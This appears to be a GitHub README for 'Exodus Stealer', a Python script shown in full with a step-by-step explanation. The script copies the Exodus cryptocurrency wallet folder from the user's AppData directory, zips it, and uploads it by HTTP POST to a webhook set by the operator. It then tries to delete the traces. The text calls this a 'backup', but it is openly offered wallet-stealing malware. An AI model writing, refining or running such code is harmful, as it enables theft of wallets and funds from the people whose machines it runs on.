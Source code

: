 # Exodus Stealer

This script backs up the Exodus wallet configuration directory, creates a zip archive of the backup, and sends it to a specified webhook URL using an HTTP POST request. If the backup and zip creation are successful, the script attempts to remove the temporary files created during the backup process.

# Code

```python
import os.path
import shutil
import requests

# Get the user's home directory
user = os.path.expanduser("~")

# Set the webhook URL
api = ""

# Check if the Exodus configuration directory exists in the user's AppData/Roaming folder
if os.path.exists(user+"\\AppData\\Roaming\\Exodus"):
    # Copy the Exodus configuration directory to a temporary location in the user's AppData/Local/Temp folder
    shutil.copytree(user+"\\AppData\\Roaming\\Exodus", user+"\\AppData\\Local\\Temp\\Exodus")
    # Create a zip archive of the Exodus configuration directory in the temporary location
    shutil.make_archive(user+"\\AppData\\Local\\Temp\\Exodus", "zip", user+"\\AppData\\Local\\Temp\\Exodus")

    # Prepare the zip archive to be sent as a file in a HTTP POST request
    file = {'file': open(user+"\\AppData\\Local\\Temp\\Exodus.zip", 'rb')}
    # Send the HTTP POST request to the specified webhook URL, including the zip archive as a file in the request
    r = requests.post(hook, files=file)

    # Attempt to remove the temporary zip archive and directory
    try:
        os.remove(user+"\\AppData\\Local\\Temp\\Exodus.zip")
        os.remove(user+"\\AppData\\Local\\Temp\\Exodus")
    except:
        # If an error occurs while attempting to remove the files, do nothing
        pass
```

# Explanation

1. Imports the required modules: os.path, shutil, and requests.
2. Gets the path to the user's home directory using os.path.expanduser("~").
3. Sets the api variable to your webhook or api.
4. Checks if the Exodus configuration directory exists in the user's AppData/Roaming folder.
5. If the directory exists, the script performs the following actions:
6. Copies the Exodus configuration directory to a temporary location in the user's AppData/Local/Temp folder using shutil.copytree().
7. Creates a zip archive of the copied directory using shutil.make_archive().
8. Prepares the zip archive to be sent as a file in an HTTP POST request.
9. Sends an HTTP POST request to the specified webhook URL, including the zip archive as a file in the request.
10. Attempts to remove the temporary zip archive and directory using os.remove().
11. If an error occurs while attempting to remove the files, the script does nothing.
12. In summary, this script makes a backup of the Exodus wallet configuration directory, zips the backup, and sends it to a specified webhook URL using an HTTP POST request.




